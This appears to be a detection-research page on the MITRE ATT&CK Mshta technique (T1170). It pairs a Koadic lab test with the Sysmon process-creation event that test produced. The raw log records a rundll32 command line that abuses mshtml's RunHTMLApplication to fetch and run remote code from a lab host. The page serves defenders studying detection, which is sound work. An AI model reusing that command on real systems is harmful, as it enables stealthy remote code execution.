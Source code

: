 <h1> Tactic: Defense Evasion, Execution
Technique: Mshta (T1170)  </h1>
<h2> From MITRE ATT&CK </h2>

Mshta.exe is a utility that executes Microsoft HTML Applications (HTA). HTA files have the file extension .hta. HTAs are standalone applications that execute using the same models and technologies of Internet Explorer, but outside of the browser.                   Adversaries can use mshta.exe to proxy execution of malicious .hta files and Javascript or VBScript through a trusted Windows utility. There are several examples of different types of threats leveraging mshta.exe during initial compromise and for execution of code.

<h2> Test </h2>

Name  | Description                                       | Reference
----- | --------------------------------------------------| ------------
Koadic| Koadic can use MSHTA to serve additional payloads | [Link to Koadic](https://github.com/zerosum0x0/koadic) 

![Windows7; Koadic](mshta_images/s1.png)
![Windows7; Koadic](mshta_images/s2.png)
![Windows7; Koadic](mshta_images/s3.png)

<h2> Analysis </h2>

## Sysmon 

EventID | TaskCategory   | User  | SysmonVersion | Image                            |  Commandline 
------- | ---------------|-------|---------------|----------------------------------| ------------
1       | ProcessCreate  |SYSTEM | 9.1.0         | C:\Windows\System32\rundll32.exe | rundll32.exe hXXp://10.0.0.120:9999/test?FQB8ZFV7H0=d34bf69da4aa4518b984ca90256e2ed6;8PEBJG06VB=;\..\..\..\mshtml,RunHTMLApplication

### Raw Log 

```
<Event xmlns="http://schemas.microsoft.com/win/2004/08/events/event">
<System>
  <Provider Name="Microsoft-Windows-Sysmon" Guid="{5770385F-C22A-43E0-BF4C-06F5698FFBD9}" /> 
  <EventID>1</EventID> 
  <Version>5</Version> 
  <Level>4</Level> 
  <Task>1</Task> 
  <Opcode>0</Opcode> 
  <Keywords>0x8000000000000000</Keywords> 
  <TimeCreated SystemTime="2019-05-07T20:42:20.877679600Z" /> 
  <EventRecordID>160</EventRecordID> 
  <Correlation /> 
  <Execution ProcessID="3044" ThreadID="528" /> 
  <Channel>Microsoft-Windows-Sysmon/Operational</Channel> 
  <Computer>virtualbox-PC</Computer> 
  <Security UserID="S-1-5-18" /> 
  </System>
- <EventData>
  <Data Name="RuleName" /> 
  <Data Name="UtcTime">2019-05-07 20:42:20.877</Data> 
  <Data Name="ProcessGuid">{63B45BB3-EDAC-5CD1-0000-001005E70E00}</Data> 
  <Data Name="ProcessId">2496</Data> 
  <Data Name="Image">C:\Windows\System32\rundll32.exe</Data> 
  <Data Name="FileVersion">6.1.7600.16385 (win7_rtm.090713-1255)</Data> 
  <Data Name="Description">Windows host process (Rundll32)</Data> 
  <Data Name="Product">Microsoft® Windows® Operating System</Data> 
  <Data Name="Company">Microsoft Corporation</Data> 
  <Data Name="CommandLine">rundll32.exe http://10.0.0.120:9999/test?FQB8ZFV7H0=d34bf69da4aa4518b984ca90256e2ed6;8PEBJG06VB=;\..\..\..\mshtml,RunHTMLApplication</Data> 
  <Data Name="CurrentDirectory">C:\Windows\system32\</Data> 
  <Data Name="User">virtualbox-PC\virtualbox</Data> 
  <Data Name="LogonGuid">{63B45BB3-E8E6-5CD1-0000-002053EC0000}</Data> 
  <Data Name="LogonId">0xec53</Data> 
  <Data Name="TerminalSessionId">1</Data> 
  <Data Name="IntegrityLevel">High</Data> 
  <Data Name="Hashes">SHA1=963B55ACC8C566876364716D5AAFA353995812A8</Data> 
  <Data Name="ParentProcessGuid">{63B45BB3-EDAC-5CD1-0000-001085E20E00}</Data> 
  <Data Name="ParentProcessId">2724</Data> 
  <Data Name="ParentImage">C:\Windows\System32\wbem\WmiPrvSE.exe</Data> 
  <Data Name="ParentCommandLine">C:\Windows\system32\wbem\wmiprvse.exe -secured -Embedding</Data> 
  </EventData>
  </Event>
```
